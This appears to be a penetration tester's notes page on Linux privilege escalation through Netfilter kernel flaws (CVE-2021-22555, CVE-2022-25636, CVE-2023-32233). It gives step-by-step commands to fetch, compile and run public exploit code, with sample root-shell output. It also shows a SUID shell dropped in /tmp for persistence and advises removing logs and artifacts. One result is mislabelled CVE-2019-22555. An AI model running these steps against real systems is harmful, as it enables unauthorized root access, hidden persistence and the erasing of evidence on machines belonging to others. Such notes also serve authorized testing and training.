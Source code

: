 ### 1. Technique Name:

Netfilter Kernel Exploit (Multiple CVEs)
### 2. Summary:

Netfilter is a Linux kernel module responsible for packet filtering, NAT, and firewalling through utilities like `iptables`, `nftables`, and `arptables`. Several critical vulnerabilities discovered between 2021 and 2023 allow local privilege escalation by exploiting flaws in Netfilter subsystems. These vulnerabilities typically affect unpatched or outdated Linux kernel versions and can be used to gain root access by executing precompiled kernel exploit code.
### 3. Conditions / Requirements:

- Local access on the target machine    
- Specific vulnerable kernel version
- Ability to compile and run exploits (requires `gcc`, headers, possibly `libmnl`, `libnftnl`)
- In many cases, the system must allow `unprivileged user namespaces` (usually enabled by default)
### 4. Enumeration Steps:
#### A. Check Kernel Version:

```bash
uname -r
```
#### B. Check for Netfilter-related modules:

```bash
lsmod | grep -i netfilter
modinfo nf_tables
```
#### C. Determine if user namespaces are enabled:

```bash
cat /proc/sys/kernel/unprivileged_userns_clone
```

→ If value is `1`, it's allowed (exploit likely viable)
### 5. Exploitation Steps:
#### A. CVE-2021-22555 – Heap-Based Buffer Overflow (Kernel 2.6 – 5.11)

Steps:

```bash
uname -r          # Check for version <= 5.11
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```

Output:

```bash
[+] STAGE 0: Initialization
[*] STAGE 1: Memory corruption
...
# id
uid=0(root) gid=0(root)
```
#### B. CVE-2022-25636 – Heap Out-of-Bounds in `nf_dup_netdev.c` (Kernel 5.4 – 5.6.10)

Steps:

```bash
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```

Warning: Exploit may crash kernel. Use only in test environments.
#### C. CVE-2023-32233 – UAF in `nf_tables` (Kernel ≤ 6.3.1)

Steps:

```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```

Output:

```bash
[*] You've Got ROOT:-)
# id
uid=0(root)
```
### 6. Post-Exploitation Tips:

- If persistence is required, drop a SUID shell:    

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```
 
- Confirm kernel stability before further actions
- Clean up: remove exploit artifacts, logs, and binaries    
- Avoid using these techniques on production targets unless explicitly allowed
### 7. Example / Notes:

- Kernel Identification:

```bash
uname -r
# 5.10.5-051005-generic → vulnerable to CVE-2021-22555
```

- CVE-2019-22555 Result:

```bash
./exploit
id
# uid=0(root)
```
 
- Common Failure Causes:
    - Kernel version patched or unsupported    
    - Missing kernel headers/libraries    
    - Crashes due to unstable memory corruption    
- Exploit Sources:
    - [CVE-2021-22555 Exploit](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)    
    - [CVE-2022-25636 Exploit](https://github.com/Bonfee/CVE-2022-25636)    
    - [CVE-2023-32233 Exploit](https://github.com/Liuk3r/CVE-2023-32233)    
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Netfilter